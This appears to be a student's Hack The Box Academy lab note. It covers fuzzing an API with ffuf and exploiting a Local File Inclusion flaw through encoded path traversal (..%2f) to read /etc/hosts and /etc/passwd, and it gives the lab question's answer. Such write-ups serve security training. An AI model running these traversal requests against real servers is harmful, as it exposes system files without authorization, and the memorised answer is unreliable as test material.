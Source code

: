 ```yaml
---
sticker: emoji//1f480
---
```

Local File Inclusion (LFI) is an attack that affects web applications and APIs alike. It allows an attacker to read internal files and sometimes execute code on the server via a series of ways, one being `Apache Log Poisoning`. Our [File Inclusion](https://academy.hackthebox.com/module/details/23) module covers LFI in detail.

Let us assess together an API that is vulnerable to Local File Inclusion.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target API and follow along.

Suppose we are assessing such an API residing in `http://<TARGET IP>:3000/api`.

Let us first interact with it.


```shell-session
smoothment@htb[/htb]$ curl http://<TARGET IP>:3000/api
{"status":"UP"}
```

We don't see anything helpful except the indication that the API is up and running. Let us perform API endpoint fuzzing using _ffuf_ and the [common-api-endpoints-mazen160.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common-api-endpoints-mazen160.txt) list, as follows.

```shell-session
smoothment@htb[/htb]$ ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET IP>:3000/api/FUZZ
 :: Wordlist         : FUZZ: /home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

:: Progress: [40/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors
download                [Status: 200, Size: 71, Words: 5, Lines: 1]
:: Progress: [87/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:: 
Progress: [174/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Error:: 
Progress: [174/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

It looks like `/api/download` is a valid API endpoint. Let us interact with it.

```shell-session
smoothment@htb[/htb]$ curl http://<TARGET IP>:3000/api/download
{"success":false,"error":"Input the filename via /download/<filename>"}
```

We need to specify a file, but we do not have any knowledge of stored files or their naming scheme. We can try mounting a Local File Inclusion (LFI) attack, though.

```shell-session
smoothment@htb[/htb]$ curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
127.0.0.1 localhost
127.0.1.1 nix01-websvc

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

The API is indeed vulnerable to Local File Inclusion!

# Question
---

![](../images/Pasted%20image%2020250219171803.png)

We can do:

```
curl "http://10.129.27.149:3000/api/download/..%2f..%2f..%2f..%2fetc%2fpasswd"
```

This outputs:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
ubuntu:x:1000:1000::/home/ubuntu:/bin/bas
```

Answer is:

```
Ubuntu
```